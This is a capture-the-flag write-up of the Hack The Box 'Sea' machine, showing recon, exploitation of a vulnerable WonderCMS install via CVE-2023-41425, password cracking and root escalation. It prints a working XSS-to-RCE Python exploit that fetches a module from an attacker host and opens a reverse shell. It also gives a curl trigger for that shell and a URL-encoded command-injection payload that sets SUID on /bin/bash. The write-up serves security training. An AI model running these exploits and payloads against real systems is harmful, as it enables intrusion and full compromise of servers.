 ```yaml
---
description: Linux 🔮Easy
cover: https://i.pinimg.com/564x/19/39/57/19395731f33579b05c9c5f45aa4121be.jpg
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Sea

## Recon

### Nmap

```markup
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Web App
```

The <mark style="color:red;">**`nmap`**</mark> result just give us a normal port such as 22 and 80

### Web app&#x20;

Port 80 is hosting the website with the title is <mark style="color:red;">**`velik71`**</mark>. And we can be able to participate the program by entering <mark style="color:red;">**`/contact.php`**</mark>:

<figure><img src="../../../.gitbook/assets/htb_sea_1_80.jpg" alt=""><figcaption></figcaption></figure>

So let enumerate the directories:

<figure><img src="../../../.gitbook/assets/sea_01_01.png" alt=""><figcaption></figcaption></figure>

There are 4 directory with 301 status code that might be some directories within them.

<figure><img src="../../../.gitbook/assets/sea_01_02.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/sea_01_04.png" alt=""><figcaption></figcaption></figure>

Keep enumerating the files for the path <mark style="color:red;">**`http://sea.htb/data/files`**</mark> & <mark style="color:red;">**`http://sea.htb/themes/bike`**</mark>:

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt -u "http://sea.htb/data/files/FUZZ" -t 200 -fc 403
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt -u "http://sea.htb/themes/bike/FUZZ" -t 200 -fc 403
```

<figure><img src="../../../.gitbook/assets/sea_01_03.png" alt=""><figcaption></figcaption></figure>

Let check some sensitive files:

<figure><img src="../../../.gitbook/assets/sea_01_05.png" alt=""><figcaption></figcaption></figure>

As we can see there is a <mark style="color:red;">**`README.md`**</mark>:

<figure><img src="https://4xura.com/wp-content/uploads/2024/08/htb_sea_12_readme.jpg" alt=""><figcaption></figcaption></figure>

And it tells us it's a WonderCMS

Check the version of that we got:&#x20;

<figure><img src="https://4xura.com/wp-content/uploads/2024/08/htb_sea_13_version.jpg" alt=""><figcaption></figcaption></figure>

[**WonderCMS**](https://github.com/WonderCMS/wondercms) 3.2.0 is a vulnerable version which is know as [CVE-2023-41425](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-41425). It allows a remote attacker to execute arbitrary code via a crafted script uploaded to the <mark style="color:red;">**`installModule`**</mark> component

## WWW-Data&#x20;

Because we already know its version has vulnerabilities.

This [article](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413) has explained how it works. So we can modify the script like this:&#x20;

```python
# Exploit: WonderCMS XSS to RCE
import sys
import requests
import os
import bs4

if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
  data = '''
var url = "'''+str(sys.argv[1])+'''";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = "http://sea.htb"+url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname;
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = urlWithoutLogBase+"/?installModule=http://10.10.14.17:8000/revshell-main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "'''+str(sys.argv[2])+'''";
       var port = "'''+str(sys.argv[3])+'''";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();

     }
   };
 }
};
'''
  try:
    open("xss.js","w").write(data)
    print("[+] xss.js is created")
    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
    print("----------------------------\n")
    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
    XSSlink = XSSlink.strip(" ")
    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
    print("----------------------------\n")

    print("\nstarting HTTP server to allow the access to xss.js")
    os.system("python3 -m http.server\n")
  except: print(data,"\n","//write this to a file")

```

We need to create an <mark style="color:red;">**`xss.js`**</mark> file containing a crafted JavaScript payload designed for an XSS attack vector. This script will utilize a given login URL to extract a security token from the HTML (specifically from the input field identified by its <mark style="color:red;">**`name`**</mark> attribute). It will then construct a URL to trigger the <mark style="color:red;">**`installModule`**</mark> functionality with the extracted token.

Since the HTB machine cannot download files from GitHub, we can download that <mark style="color:red;">**`.zip`**</mark> file to our machine (Download here: [https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip](https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip))

Run the script:

```bash
python3 exploit.py http://sea.htb/loginURL <YOUR_IP> 4444
```

Copy the XSS link and sending to admin by <mark style="color:red;">**`/contact.php`**</mark>

<figure><img src="../../../.gitbook/assets/sea_02_01.png" alt=""><figcaption></figcaption></figure>

Send the POST request and wait for the admin to download it. But some problems with the <mark style="color:red;">**`xss.js`**</mark> make it can't connect to the shell.&#x20;

So we can manually visit the reverse shell and provide certain parameters:

```bash
curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=<YOUR_IP>&lport=4444'
```

<figure><img src="../../../.gitbook/assets/sea_02_02.png" alt=""><figcaption></figcaption></figure>

## Amay - SEA

As we know the website uses an Apache server so they should check <mark style="color:red;">**`/var/www`**</mark>

Find for useful information, we will find database.js which contains creds:&#x20;

<figure><img src="../../../.gitbook/assets/sea_03_01.png" alt=""><figcaption></figcaption></figure>

Copy the password and use <mark style="color:red;">**`john`**</mark> to crack it to have <mark style="color:red;">**`amay`**</mark> password

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt crack.txt
```

Use the cracked password and log in to <mark style="color:red;">**`amay`**</mark> user&#x20;

<figure><img src="../../../.gitbook/assets/sea_03_02.png" alt=""><figcaption></figcaption></figure>

## Root - SEA

For privilege escalation, first try <mark style="color:red;">**`netstat`**</mark> to see the internal networks associated with the server

<figure><img src="../../../.gitbook/assets/sea_04_01.png" alt=""><figcaption></figcaption></figure>

There are many IPs but just focus on <mark style="color:red;">**`127.0.0.1`**</mark> with port <mark style="color:red;">**`8080`**</mark>

To see more clearly you can use <mark style="color:red;">**`grep`**</mark>

<figure><img src="../../../.gitbook/assets/sea_04_02.png" alt=""><figcaption></figcaption></figure>

This proves we can specify a port when running <mark style="color:red;">**`ssh`**</mark>

<figure><img src="../../../.gitbook/assets/sea_04_03.png" alt=""><figcaption></figcaption></figure>

Navigate to <mark style="color:red;">**`http://localhost:4000`**</mark> and login with <mark style="color:red;">**`amay`**</mark> credential

<figure><img src="../../../.gitbook/assets/sea_04_04.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/sea_04_05.png" alt=""><figcaption></figcaption></figure>

Now we have access to System Monitor which is a hardware or software component used to monitor system resources and performance in a computer system.

It displays the disk usage of the logical volume <mark style="color:red;">**`/dev/mapper/ubuntu--vg-ubuntu--lv`**</mark> on an Ubuntu system, as suggested by the volume group naming convention. The usage statistics reveal that 73% of the disk is currently utilized, which could be worrisome if the volume has limited capacity for expansion.

Click on Analyze and we get:&#x20;

<figure><img src="../../../.gitbook/assets/sea_04_07.png" alt=""><figcaption></figcaption></figure>

It shows logs of <mark style="color:red;">**`gobuster`**</mark> uses (someone uses it)&#x20;

Review the traffic in BurpSuite, we can see that parameter <mark style="color:red;">**`log_file=/var/log/apache2/access.log`**</mark> is provided in the POST request

If we tested /root/root.txt as the parameter for <mark style="color:red;">**`log_file`**</mark>, it just detects the corresponding file, possibly with root privilege

<figure><img src="../../../.gitbook/assets/sea_04_06.png" alt=""><figcaption></figcaption></figure>

We got that response because if the filter detects the so-called suspicious traffic patterns, it prints out the content or potentially executes commands. So it's trial and error time. After some testing, simple <mark style="color:red;">**`;`**</mark> for command injection adding some separators will make the dummy filter misfunction to output sensitive files owned by root and execute arbitrary commands:

So that I create the <mark style="color:red;">**`URL-decode`**</mark> payload:

```bash
%2Fvar%2Flog%2Fapache2%2Faccess.log;%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68%0a
```

It will inject <mark style="color:red;">**`chmod u+s /bin/bash`**</mark> . In the SSH session, we executed <mark style="color:red;">**`/bin/bash -p`**</mark>and gained root access:

<figure><img src="../../../.gitbook/assets/sea_04_08.png" alt=""><figcaption></figcaption></figure>
